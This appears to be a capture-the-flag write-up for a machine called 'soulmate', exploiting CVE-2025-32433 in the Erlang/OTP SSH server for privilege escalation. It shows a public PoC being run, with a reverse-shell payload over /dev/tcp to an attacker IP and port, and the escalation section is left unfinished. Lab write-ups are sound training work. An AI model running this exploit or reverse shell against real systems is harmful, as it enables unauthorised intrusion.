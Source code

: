 We are in `Eshell` so to use the command, we can check out by typing `help().` <br>
&rarr; Let's searching out for public cve or related exploitation.

From this [SSH Release Notes](https://www.erlang.org/doc/apps/ssh/notes.html#ssh-5-2-10), we found out [CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433) by exploiting a flaw in SSH protocol message handling that have attacker gain RCE.

### CVE-2025-32433
Checking out the advisory related [Unauthenticated Remote Code Execution in Erlang/OTP SSH](https://github.com/erlang/otp/security/advisories/GHSA-37cp-fgq5-7wc2) and we also found out blog [rce-vulnerability-erlang-otp](https://www.cybereason.com/blog/rce-vulnerability-erlang-otp) that we can have a look at it. <br>
We searching more and got [CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC](https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC) and if we want to know more about how this Poc establish, we can go through [CVE-2025-32433-poc](https://platformsecurity.com/blog/CVE-2025-32433-poc) blog. <br>
&rarr; Let's exploit it out.

First we gonna download the python script and setup our python server and then transfer it to target machine via `wget`. <br>
Then we will escalated with these command and option.

```bash
www-data@soulmate:/tmp$ python3 cve-2025-32433.py 127.0.0.1 -p 2222 --shell --lhost 10.10.16.17 --lport 4444
[*] Target: 127.0.0.1:2222
[*] Sending reverse shell to connect back to 10.10.16.17:4444
[*] Connecting to target...
[+] Received banner: SSH-2.0-Erlang/5.2.9
Fɍ      >\      5curve25519-sha256,curve25519-sha256@libssh.org,curve448-sha512,ecdh-sha2-nistp521,ecdh-sha2-nistp384,ecdh-sha2-nistp256,diffie-hellman-group-exchange-sha256,diffie-hellman-group16-sha512,diffie-hellman-group18-sha512,diffie-hellman-group14-sha256,ext-info-s,kex-strict-s-v00@openssh.com9ssh-ed25519,ecdsa-sha2-nistp256,rsa-sha2-512,rsa-sha2-256aes256-gcm@openssh.com,aes256-ctr,aes192-ctr,aes128-gcm@openssh.com,aes128-ctr,chacha20-poly1305@openssh.com,aes256-cbc,aes192-cbc,aes128-cbc,3des-cbcaes256-gcm@openssh.com,aes256-ctr,aes192-ctr,aes128-gcm@openssh.com,aes128-ctr,chacha20-poly1305@openssh.com,aes256-cbc,aes192-cbc,aes128-cbc,3des-cbc{hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com,hmac-sha2-512,hmac-sha2-256,hmac-sha1-etm@openssh.com,hmac-sha1{hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com,hmac-sha2-512,hmac-sha2-256,hmac-sha1-etm@openssh.com,hmac-sha1▒none,zlib@openssh.com,zlib▒none,zlib@openssh.com,zlib
[+] Running command: os:cmd("bash -c 'exec 5<>/dev/tcp/10.10.16.17/4444; cat <&5 | while read line; do $line 2>&5 >&5; done'").
[✓] Exploit sent. If vulnerable, command should execute.
[+] Reverse shell command sent. Check your listener.
```

Checking back the listener does not have any response. <br>
&rarr; So we modified the command abit.

## Privilege Escalation
We gonna update this part.

```bash
[+] Running command: os:cmd("bash -c 'exec 5<>/dev/tcp/10.10.16.17/4444; cat <&5 | while read line; do $line 2>&5 >&5; done'").
```
